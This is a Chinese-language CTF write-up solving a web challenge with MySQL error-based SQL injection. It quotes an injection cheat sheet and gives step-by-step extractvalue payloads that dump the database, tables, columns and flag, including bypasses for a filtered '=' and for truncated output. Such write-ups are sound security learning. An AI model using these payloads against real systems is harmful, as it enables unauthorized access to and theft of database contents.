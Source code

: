 

判断变量名是`id`并且数据好像还被Base64编码了，本来想用sqlmap的但是，数据编码怎么使用我还不知道.......

测试了几个数据，发现可以用到刚学习的报错注入，我这里使用一下其他人的笔记辅助我做题

> mysql手工注入及报错注入笔记https://www.nonevector.top/posts/20.html
>
> Author:NoneVector

```
//摘抄于其他作者文章
查数据库名：id='and(select extractvalue(1,concat(0x7e,(select database()))))
爆表名：id='and(select extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))))
爆字段名：id='and(select extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name="TABLE_NAME"))))
爆数据：id='and(select extractvalue(1,concat(0x7e,(select group_concat(COIUMN_NAME) from TABLE_NAME))))
```

我们按部就班的来做
updatexml(1,concat(0x7e,(select database())),0x7e))
1. `extractvalue(1,concat(0x7e,database()))`

   **回显：XPATH syntax error: '~ctf'**    得到数据库名称

2. `extractvalue(1,concat(0x7e，(select(group_concat(table_name))from(information_schema.tables)where(table_schema= "ctf"))))`

​	**回显：发现出现了问题，可能是屏蔽了一些字符，我们跟上面语句比较**

试了半天发现应该是`=`被屏蔽了，我上网查一下替换方案：

![image-20240816160738054](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240816160738054.png)

可以使用`like`替换，我测试一下结果如何

`extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema like "ctf"))))`

​	**回显：XPATH syntax error: '~F149,hexo'**

3. `extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name like "F149"))))`

​	**回显:XPATH syntax error: '~id,des,value'**

4. 发现有三个表，逐一查询，发现在value中有flag

   `extractvalue(1,concat(0x7e,(select(group_concat(value))from(F149))))`

   **回显：XPATH syntax error: '~HnuCTF{50063e22-d15f-4edf-a8...'**

   ![image-20240816161525323](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240816161525323.png)

   无法显示完整，我记得好像报错有字符限制，这里蒙了一会儿，在网上查到一些信息

   发现可以使用`left`和`right`左右查看

   `extractvalue(1,concat(0x7e,(select(right(group_concat(value),30))from(F149))))`
